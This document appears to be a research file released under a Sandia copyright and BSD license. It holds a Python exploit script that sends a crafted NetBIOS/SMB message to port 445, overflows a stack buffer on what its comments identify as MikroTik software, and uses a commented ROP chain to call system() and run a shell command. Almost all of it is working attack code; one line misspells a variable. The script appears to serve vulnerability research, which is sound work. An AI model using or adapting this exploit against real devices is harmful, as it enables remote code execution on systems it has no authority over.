 .. Copyright 2022 National Technology & Engineering Solutions of Sandia, LLC
   (NTESS).  Under the terms of Contract DE-NA0003525 with NTESS, the U.S.
   Government retains certain rights in this software.
   
   Redistribution and use in source and binary/rendered forms, with or without
   modification, are permitted provided that the following conditions are met:
   
    1. Redistributions of source code must retain the above copyright notice,
       this list of conditions and the following disclaimer.
    2. Redistributions in binary/rendered form must reproduce the above copyright
       notice, this list of conditions and the following disclaimer in the
       documentation and/or other materials provided with the distribution.
    3. Neither the name of the copyright holder nor the names of its contributors
       may be used to endorse or promote products derived from this software
       without specific prior written permission.
   
   THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
   ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
   WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
   DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
   FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
   DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
   SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
   CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
   OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
   OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

.. code::

 import socket
 import sys
 import struct
 
 if len(sys.argv) < 2:
     print("{} <ip> <exit status>".format(sys.argv[0]))
     sys.exit(1)
 
 ip = sys.argv[1]
 
 status = 5
 if len(sys.argv) == 3:
     status = int(sys.argv[2])
 
 # This is the NetBIOS session request message
 payload = b"\x81"
 
 # This is what was already in the message
 payload += b"\x00\x01\xdc\xfe\x53\x4d\x42\x40\x00\x00\x00\x00\x00\x00\x00\x01"
 payload += b"\x00\xf1\x1f\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00"
 payload += b"\x00\x00\x00\x00\x00"
 
 # This is the length of what we write into the stack
 payload += b"\xff"
 
 # This is what we clobber the stack with until the return address
 payload += b"\x4c\x49\x47\x4D\x41\x02\x49\x53\x06\x52\x45\x41\x4c\x4c\x59\x07"
 payload += b"\x4c\x41\x47\x47\x49\x4e\x47\x00\x00\x00\x00\x00\x00\x19\x00\x00"
 payload += b"\x01\x01\x00\x00\x00\x00\x00\x00\x00\x58\x00\x84\x01\x00\x00\x00"
 payload += b"\x00\x00\x00\x00\x1d\xb1\x06\x80\x80\x30\x82\x01\x40\x40\x40\x40"
 
 # This is the return address that we can overwrite
 payload += struct.pack("I", 0x0804c39d)
 
 # u_Clibc_main pointer @ 0x08071154 in the GOT
 # system @ 0x77f633c5
 
 # This is our ROP chain.
 # 0x0804c39d: pop ebx; pop ebp; ret;
 # This puts the Global Offset Table entry for libc_main into ebx
 libcaddress = 0x08071154 + 0x2f76ef36
 payload += struct.pack("I", libcaddress)    # pop ebx
 payload += struct.pack("I", 0x11111111)     # pop ebp
 payload += struct.pack("I", 0x0804f672)     # ret
 
 # 0x0804f672: add eax, dword ptr [ebx - 0x2f76ef36]; pop ebp; ret;
 # This puts the address of libc_main into eax
 payload += struct.pack("I", 0x22222222)     # pop ebp
 payload += struct.pack("I", 0xffffe426)     # ret
 
 # 0xffffe426: pop ecx; ret;
 # This puts -0x244bb into ecx.
 # -0x244ba is the offset for our libc ROP gadget vs libc_main
 payload += struct.pack("I", 0xfffdbb46)     # pop ecx
 payload += struct.pack("I", 0x0804d9bb)     # ret
 
 # 0x0804d9bb: lea eax, [ecx + eax + 1]; pop ebp; ret;
 # This performs the addition and puts the address of our libc ROP gadget into eax
 payload += struct.pack("I", 0x33333333)     # pop ebp
 payload += struct.pack("I", 0x0804dc6f)     # ret
 
 # 0x0804dc6f: push eax; add al, 0x5d; ret;
 # This jumps to the ROP gadget we want to access in libc (libc + 0xa97a).
 
 # libc + 0x0000a97a: push esp; pop esi; pop edi; pop ebp; ret;
 # This copies esp into esi
 payload += struct.pack("I", 0x44444444)     # pop edi
 payload += struct.pack("I", 0x55555555)     # pop ebp
 payload += struct.pack("I", 0x0804d3d5)     # ret
 
 # 0x0804d3d5: pop edi; pop ebp; ret;
 # This populates edi with the next return value to be used by call
 payload += struct.pack("I", 0x08050738)     # pop edi
 payload += struct.pack("I", 0x66666666)     # pop ebp
 payload += struct.pack("I", 0x0804d4e1)     # ret
 
 # 0x0804d4e1: push esi; call edi;
 # This pushes esi onto the stack and jumps to 0x08050738
 
 # 0x08050738: pop edx; pop ebx; pop ebp; ret;
 # This loads esi into ebx
 payload += struct.pack("I", 0x77777777)     # pop ebp
 payload += struct.pack("I", 0xffffe426)     # ret
 
 # 0xffffe426: pop ecx; ret;
 # This puts 0x249ED into ecx.
 # 0x249EE is the offset for system vs our libc ROP gadget (+0x5d from an earlier gadget)
 payload += struct.pack("I", 0x249ED)        # pop ecx
 payload += struct.pack("I", 0x0804d9bb)     # ret
 
 # 0x0804d9bb: lea eax, [ecx + eax + 1]; pop ebp; ret;
 # This performs the addition and puts the address of system into eax
 payload += struct.pack("I", 0x88888888)     # pop ebp
 payload += struct.pack("I", 0x08062f8a)     # ret
 
 # 0x08062f8a: xchg eax, edx; ret;
 # This swaps eax and edx, putting the address of system into edx
 payload += struct.pack("I", 0xffffe426)     # ret
 
 # 0xffffe426: pop ecx; ret;
 # This puts 0xb0 into ecx. This is the offset for our command in the stack vs ebx
 payload += struct.pack("I", 0xb0)           # pop ecx
 payload += struct.pack("I", 0x080502cb)     # ret
 
 # 0x080502cb: add ecx, ebx; push ecx; call edx;
 # This loads ecx with the address of our command and pushes it onto the stack,
 # then jumps to edx (=system)
 
 # 0x0804f7da: pop eax; pop ebx; pop ebp; ret;
 # This isn't called currently because we segfault after returning from system.
 # But if I clean this up to avoid the segfault
 # and we manage to jump here, it'll do a clean exit.
 payload += struct.pack("I", 1)              # pop eax
 payload += struct.pack("I", status)         # pop ebx
 payload += struct.pack("I", 0x99999999)     # pop ebp
 payload += struct.pack("I", 0xffffe406)     # ret to $int 0x80
 
 # Some padding before our command
 payload += struct.pack("I", 0xeeeeeeee)*25
 
 # This is the command that we want to run
 command = 'echo "Hi I am MikroTik and I have seen the face of G-d. If you can avoid '
 commant += 'segfaulting me I will tell you the secrets of the universe."; '
 command += '/bin/touch /tmp/pwnd; '
 payload += command.encode('utf-8')
 payload += b"\x00" # Null-terminate our string in case that isn't done automatically
 
 # Some padding after our command
 payload += struct.pack("I", 0xffffffff)*10
 
 # And here's the rest of the payload
 payload += b"\x00\x58\x00\x00\x00\xde\x00\xde\x00\x70\x00\x00\x00\x12\x00\x12\x00"
 payload += b"\x4e\x01\x00\x00\x08\x00\x08\x00\x60\x01\x00\x00\x0c\x00\x0c\x00\x68"
 payload += b"\x01\x00\x00\x00\x00\x00\x00\x74\x01\x00\x00\x15\x82\x08\x02\x06\x01"
 payload += b"\x00\x00\x00\x00\x00\x0f\x5b\x12\x93\x66\xec\x3d\x20\x3c\x14\xad\x91"
 payload += b"\x34\xa5\x5f\x19\x6c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
 payload += b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x98\xa5\x0d\xb4\x35"
 payload += b"\xc2\x8c\xd8\x68\x7b\xa1\x8d\x35\xf8\x33\x9b\x01\x01\x00\x00\x00\x00"
 payload += b"\x00\x00\x44\x35\x9b\x0f\xe5\x7c\xd7\x01\x64\x53\xd3\xa9\xa0\xfa\x02"
 payload += b"\x7c\x00\x00\x00\x00\x01\x00\x10\x00\x4d\x00\x49\x00\x4b\x00\x52\x00"
 payload += b"\x4f\x00\x54\x00\x49\x00\x4b\x00\x02\x00\x0c\x00\x4d\x00\x53\x00\x48"
 payload += b"\x00\x4f\x00\x4d\x00\x45\x00\x03\x00\x10\x00\x4d\x00\x69\x00\x6b\x00"
 payload += b"\x72\x00\x6f\x00\x54\x00\x69\x00\x6b\x00\x04\x00\x0c\x00\x4d\x00\x53"
 payload += b"\x00\x48\x00\x4f\x00\x4d\x00\x45\x00\x08\x00\x30\x00\x30\x00\x00\x00"
 payload += b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb5\x9e\xfb\x88\x68"
 payload += b"\x6e\xb0\x57\xc7\x5a\x32\x62\xe8\xb5\xdb\xb4\x35\x85\x26\x65\x91\x44"
 payload += b"\x54\xe3\xda\x3a\x73\x51\xf1\x0c\x7b\x18\x0a\x00\x10\x00\x00\x00\x00"
 payload += b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x00\x1a\x00"
 payload += b"\x63\x00\x69\x00\x66\x00\x73\x00\x2f\x00\x4d\x00\x69\x00\x6b\x00\x72"
 payload += b"\x00\x6f\x00\x54\x00\x69\x00\x6b\x00\x00\x00\x00\x00\x57\x00\x4f\x00"
 payload += b"\x52\x00\x4b\x00\x47\x00\x52\x00\x4f\x00\x55\x00\x50\x00\x75\x00\x73"
 payload += b"\x00\x65\x00\x72\x00\x55\x00\x42\x00\x55\x00\x4e\x00\x54\x00\x55\x00"
 
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect((ip,445))
 s.sendall(payload)
 
